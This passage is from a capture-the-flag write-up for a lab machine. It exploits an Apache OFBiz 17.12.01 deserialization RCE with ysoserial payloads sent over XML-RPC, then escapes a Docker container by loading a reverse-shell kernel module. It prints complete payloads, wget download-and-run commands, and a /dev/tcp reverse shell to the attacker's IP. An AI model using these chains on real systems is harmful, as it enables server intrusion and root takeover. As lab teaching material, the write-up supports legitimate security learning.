──────────────────────────────────────────────────
302        0l        0w        0c https://127.0.0.1:8001/images
302        0l        0w        0c https://127.0.0.1:8001/catalog
302        0l        0w        0c https://127.0.0.1:8001/common
302        0l        0w        0c https://127.0.0.1:8001/content
302        0l        0w        0c https://127.0.0.1:8001/ar
302        0l        0w        0c https://127.0.0.1:8001/ebay
302        0l        0w        0c https://127.0.0.1:8001/marketing
302        0l        0w        0c https://127.0.0.1:8001/passport
302        0l        0w        0c https://127.0.0.1:8001/ecommerce
302        0l        0w        0c https://127.0.0.1:8001/ap
302        0l        0w        0c https://127.0.0.1:8001/example
302        0l        0w        0c https://127.0.0.1:8001/projectmgr
302        0l        0w        0c https://127.0.0.1:8001/accounting
302        0l        0w        0c https://127.0.0.1:8001/bi
302        0l        0w        0c https://127.0.0.1:8001/webtools
302        0l        0w        0c https://127.0.0.1:8001/facility
302        0l        0w        0c https://127.0.0.1:8001/manufacturing
302        0l        0w        0c https://127.0.0.1:8001/solr
302        0l        0w        0c https://127.0.0.1:8001/myportal
302        0l        0w        0c https://127.0.0.1:8001/sfa
302        0l        0w        0c https://127.0.0.1:8001/contentimages
302        0l        0w        0c https://127.0.0.1:8001/humanres
302        0l        0w        0c https://127.0.0.1:8001/partymgr
[####################] - 25s    29999/29999   0s      found:23      errors:0      
[####################] - 25s    29999/29999   1192/s  https://127.0.0.1:8001/

```


Looking at the bottom of the page, I can see the version number as well, 17.12.01.




I ran ofbiz through searchsploit to see what it returned, and it looks like there is an RCE for this verison.

```sh
kali@kali-[~]$searchsploit ofbiz
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache OFBiz - Admin Creator                                                                                                                                                                               | multiple/remote/12264.txt
Apache OFBiz - Multiple Cross-Site Scripting Vulnerabilities                                                                                                                                               | php/webapps/12330.txt
Apache OFBiz - Remote Execution (via SQL Execution)                                                                                                                                                        | multiple/remote/12263.txt
Apache OFBiz 10.4.x - Multiple Cross-Site Scripting Vulnerabilities                                                                                                                                        | multiple/remote/38230.txt
Apache OFBiz 16.11.04 - XML External Entity Injection                                                                                                                                                      | java/webapps/45673.py
Apache OFBiz 16.11.05 - Cross-Site Scripting                                                                                                                                                               | multiple/webapps/45975.txt
Apache OFBiz 17.12.03 - Cross-Site Request Forgery (Account Takeover)                                                                                                                                      | java/webapps/48408.txt
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)                                                                                                                                                      | java/webapps/50178.sh
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

I found this [github](https://github.com/g33xter/CVE-2020-9496) repo that had pretty straight forward instructions to exploit this. I used the following command to create the payload.

```sh
kali@kali-[~/boxes/htb/monitors]$java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget 10.10.14.35/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
```

Using the following curl command I was able to upload shell.sh to the docker container.

```sh
$ curl https://127.0.0.1:8001/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABrzK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAqd2dldCAxMC4xMC4xNC4zNS9zaGVsbC5zaCAtTyAvdG1wL3NoZWxsLnNoCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAceXNvc2VyaWFsL1B3bmVyMTc1NzM2OTU2MDE1MAEAHkx5c29zZXJpYWwvUHduZXIxNzU3MzY5NTYwMTUwOwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgABAABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAC8ADgAAAAwAAQAAAAUADwA4AAAAAQATABQAAgAMAAAAPwAAAAMAAAABsQAAAAIADQAAAAYAAQAAADQADgAAACAAAwAAAAEADwA4AAAAAAABABUAFgABAAAAAQAXABgAAgAZAAAABAABABoAAQATABsAAgAMAAAASQAAAAQAAAABsQAAAAIADQAAAAYAAQAAADgADgAAACoABAAAAAEADwA4AAAAAAABABUAFgABAAAAAQAcAB0AAgAAAAEAHgAfAAMAGQAAAAQAAQAaAAgAKQALAAEADAAAACQAAwACAAAAD6cAAwFMuAAvEjG2ADVXsQAAAAEANgAAAAMAAQMAAgAgAAAAAgAhABEAAAAKAAEAAgAjABAACXVxAH4AEAAAAdTK/rq+AAAAMgAbCgADABUHABcHABgHABkBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFceZp7jxtRxgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAA0ZvbwEADElubmVyQ2xhc3NlcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHABoBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbwEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAEAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAA8AA4AAAAMAAEAAAAFAA8AEgAAAAIAEwAAAAIAFAARAAAACgABAAIAFgAQAAlwdAAEUHducnB3AQB4cQB+AA14</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```


```sh
kali@kali-[~/boxes/htb/monitors]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - [10/Feb/2022 14:39:43] "GET /shell.sh HTTP/1.1" 200 -
```


I then created another payload to execute the script that was uploaded.

```sh
java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"
```

```sh
$ curl https://127.0.0.1:8001/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqTK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQASYmFzaCAvdG1wL3NoZWxsLnNoCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAceXNvc2VyaWFsL1B3bmVyMjI0MTY5MDA5ODgzNwEAHkx5c29zZXJpYWwvUHduZXIyMjQxNjkwMDk4ODM3OwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgABAABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAC8ADgAAAAwAAQAAAAUADwA4AAAAAQATABQAAgAMAAAAPwAAAAMAAAABsQAAAAIADQAAAAYAAQAAADQADgAAACAAAwAAAAEADwA4AAAAAAABABUAFgABAAAAAQAXABgAAgAZAAAABAABABoAAQATABsAAgAMAAAASQAAAAQAAAABsQAAAAIADQAAAAYAAQAAADgADgAAACoABAAAAAEADwA4AAAAAAABABUAFgABAAAAAQAcAB0AAgAAAAEAHgAfAAMAGQAAAAQAAQAaAAgAKQALAAEADAAAACQAAwACAAAAD6cAAwFMuAAvEjG2ADVXsQAAAAEANgAAAAMAAQMAAgAgAAAAAgAhABEAAAAKAAEAAgAjABAACXVxAH4AEAAAAdTK/rq+AAAAMgAbCgADABUHABcHABgHABkBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFceZp7jxtRxgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAA0ZvbwEADElubmVyQ2xhc3NlcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHABoBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbwEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAEAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAA8AA4AAAAMAAEAAAAFAA8AEgAAAAIAEwAAAAIAFAARAAAACgABAAIAFgAQAAlwdAAEUHducnB3AQB4cQB+AA14</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```


This gave me a reverse shell as root in the docker container.


```sh
kali@kali-[~/boxes/htb/monitors]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.238] 37038
bash: cannot set terminal process group (32): Inappropriate ioctl for device
bash: no job control in this shell
root@a55c70ab495a:/usr/src/apache-ofbiz-17.12.01# whoami
whoami
root
root@a55c70ab495a:/usr/src/apache-ofbiz-17.12.01# 
```

# Docker Escape

I haven't had much experience with docker container escapes, so I did some research on this one. I ended up running across different articles that guided me to find out the capabilities using the following command.

```sh
root@a55c70ab495a:/# capsh --print
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```


I found this [article]() that listed all the capabilities and what they mean. In the output above it lists cap_sys_module. According to the link it says that this capability can "Insert/Remove kernel modules".

Doing some further google searching on the cap_sys_module container escapes, I found this [article](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) that showed exactly how to abuse this.

I created two files on my kali, I already knew I could transfer files to the container so this was just easier. 

reverse-shell.c
```sh
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.35/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Makefile
```sh
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

I transferred both of these files to the docker container.

```sh
root@a55c70ab495a:/tmp# wget http://10.10.14.35/reverse-shell.c
wget http://10.10.14.35/reverse-shell.c
--2022-02-10 20:31:40--  http://10.10.14.35/reverse-shell.c
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 615 [text/x-csrc]
Saving to: ‘reverse-shell.c’

     0K                                                       100% 60.6M=0s

2022-02-10 20:31:40 (60.6 MB/s) - ‘reverse-shell.c’ saved [615/615]

root@a55c70ab495a:/tmp# wget http://10.10.14.35/MakeFile
wget http://10.10.14.35/Makefile
--2022-02-10 20:31:52--  http://10.10.14.35/Makefile
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 159 [application/octet-stream]
Saving to: ‘Makefile’

     0K                                                       100% 14.6M=0s

2022-02-10 20:31:52 (14.6 MB/s) - ‘Makefile’ saved [159/159]
```


```sh
kali@kali-[~/boxes/htb/monitors]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - [10/Feb/2022 15:31:40] "GET /reverse-shell.c HTTP/1.1" 200 -
10.10.10.238 - - [10/Feb/2022 15:31:51] "GET /Makefile HTTP/1.1" 200 -
```


I then ran make on the docker container to create reverse-shell.ko. Ko files are loadable kernel modules. I found this [website](https://docs.legato.io/18_02/howToKernelObject.html) which explains this a bit more. 

```sh
root@a55c70ab495a:/tmp# make
make
make -C /lib/modules/4.15.0-151-generic/build M=/tmp modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-151-generic'
  CC [M]  /tmp/reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/reverse-shell.mod.o
  LD [M]  /tmp/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-151-generic'
```

This next command will insert the kernel module, executing the reverse shell. 

```sh
root@a55c70ab495a:/tmp# insmod reverse-shell.ko
insmod reverse-shell.ko
```


```sh
kali@kali-[~/boxes/htb/monitors]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.238] 60750
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# 
```


```sh
root@monitors:/root# cat root.txt
cat root.txt
bb86b19a155cb6..................
```